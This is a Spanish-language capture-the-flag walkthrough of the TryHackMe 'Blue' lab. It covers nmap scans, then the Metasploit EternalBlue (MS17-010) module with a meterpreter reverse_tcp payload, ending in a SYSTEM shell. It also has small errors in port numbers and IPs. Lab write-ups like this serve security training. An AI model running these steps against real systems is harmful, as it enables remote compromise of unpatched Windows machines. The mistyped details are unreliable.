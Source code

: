 ```yaml
---
title : Máquina|Blue|THM
published : True
---
```

<div class="contenedor">
    <img src="imgs/blue/blue.gif" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Facil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>


<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
>
<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
>
<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
>
<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemos con <font color="gold">msfconsole</font>, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
>
<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
>
<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
>
<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
>
<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
>
<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
>
<img src="/imgs/blue/blue8.jpg"/>
* <p>Y listo si ejecutas el comando Shell, y pones whoami seras autority system.</p>
* <p>Ok maquina vulnerada</p>

